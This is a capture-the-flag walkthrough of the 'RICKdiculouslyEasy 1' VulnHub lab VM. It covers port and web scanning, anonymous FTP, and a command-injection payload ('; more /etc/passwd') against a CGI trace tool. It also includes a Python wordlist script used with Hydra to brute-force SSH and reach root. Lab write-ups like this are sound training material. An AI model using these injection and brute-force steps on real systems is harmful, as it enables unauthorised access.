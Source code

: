 ## RICKdiculouslyEasy 1 VulnHub VM walkthrough

RICKdiculouslyEasy 1 by https://twitter.com/sayli_ambure

Link: https://www.vulnhub.com/entry/rickdiculouslyeasy-1,207/

```
This is a fedora server vm, created with virtualbox.
It is a very simple Rick and Morty themed boot to root.
There are 130 points worth of flags available (each flag has its points recorded with it), you should also get root.
It's designed to be a beginner ctf, if you're new to pen testing, check it out!
```

## Solution

#### 1. Sudo Netdiscover
![](Assets/1.PNG)
> IP address: 192.168.1.10

#### 2. Port scan: Nmap -sC -sV -Pn -A -p- 192.168.1.10
![](Assets/2.PNG)
![](Assets/2.1.PNG)
> 21 -> ftp -> vsftpd 3.0.3 -> anonymous

> 22 -> ssh

> 80 -> Apache httpd 2.4.27

> 9090 -> Cockpit webservice
  
> 13337 -> unknown
  
> flag (10 pt) => total 10 points
  
> 22222 -> ssh -> OpenSSH 7.5 (protocol 2.0)
  
> 60000 > unknown

#### 3. Nikto: Nikto -h 192.168.1.10
![](Assets/3.PNG)
> passwords/ directory

> icons/ directory

#### 4. Browser > http://192.168.1.10/passwords/
![](Assets/4.PNG)
> FLAG.txt

> passwords.html

#### 5. Browser > http://192.168.1.10/passwords/FLAG.txt
![](Assets/5.PNG)
> Got Flag (10 pt) = total points 20

#### 6. Browser > http://192.168.1.10/passwords.html and page source code
![](Assets/6.PNG)
![](Assets/7.PNG)
> password -> winter

#### 7. Browser > http://192.168.1.10/icons/
![](Assets/8.PNG)
> nothing special other than directory listing

#### 8. Browser > http://192.168.1.10/robots.txt
![](Assets/9.PNG)
> /cgi-bin/root_shell.cgi

> /cgi-bin/tracertool.cgi

#### 9. Browser > view-source:http://192.168.1.10/cgi-bin/root_shell.cgi
![](Assets/10.PNG)
> nothing useful

#### 10. Browser > http://192.168.1.10/cgi-bin/tracertool.cgi
![](Assets/11.PNG)
![](Assets/12.PNG)
> Vulnerable to command injection
![](Assets/13.PNG)
> cat command doesn't work. Can use 'more', 'less','head' or 'tail' instead

#### 11. Payload > ; more /etc/passwd
![](Assets/14.PNG)
> Note users 'morty', 'ricksanchez' and 'summer'

#### 12. Ftp 192.168.1.10 > anonymous:anonymous 
![](Assets/15.PNG)
> logged in
![](Assets/16.PNG)
> ftp://192.168.1.10 > Flag.txt (10 pt) => total 30 points

#### 13. ssh 192.168.1.10 22
![](Assets/17.PNG)
> Not accessible

#### 14. Browser > http://192.168.1.10:9090
![](Assets/18.PNG)
> Got flag (10 pt) => total 40 points

#### 15. Try winter password for users found in step 11 via SSH on 22222 port
![](Assets/19.PNG)
> Didn't work

![](Assets/20.PNG)
> Worked for user 'Summer'

> Got flag (10 pt) => total 50 points
![](Assets/21.PNG)
> password for unzipping journal.txt.zip is in safe_password.jpg
![](Assets/22.PNG)
> Pull jpg file in host machine
![](Assets/23.PNG)
> Got safe password
![](Assets/24.PNG)
> Got Flag (20 pt) => total 70 points
![](Assets/25.PNG)
![](Assets/26.PNG)
> Used flag in journal.txt as argument for safe

> Got next flag (20 pt) => total 90 points

> Got Pattern for RickSanchez password

#### 16. Create python script for all possible password combinations using the clue to feed Hydra:
```
def main():
    LETTERS = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
    DIGITS = '0123456789'
    BAND_WORDS = ['The', 'Flesh', 'Curtains']
    with open('rickpwd.txt', 'w') as f:
        for letter in LETTERS:
            for digit in DIGITS:
                for word in BAND_WORDS:
                    f.write('{}{}{}\n'.format(letter, digit, word))
        f.flush()
if __name__ == '__main__':
    main()
```
> rickpwd.txt created

#### 17. Hydra -l RickSanchez -P rickpwd.txt 192.168.1.10 ssh -s 22222
![](Assets/27.PNG)
> Password for RickSanchez user > P7Curtains

#### 18. ssh RickSanchez@192.168.1.10 -p 22222
![](Assets/28.PNG)
![](Assets/29.PNG)
> Got root and Flag (30 pt) => total 120 points

#### 19. Analyzing remaining ports: telnet 192.168.1.10 13337
![](Assets/30.PNG)
> Flag already found

#### 20. nc 192.168.1.10 60000
![](Assets/31.PNG)
> Got Flag (10 pt) => total 130 points

> Got all 130/130 points and owned root.
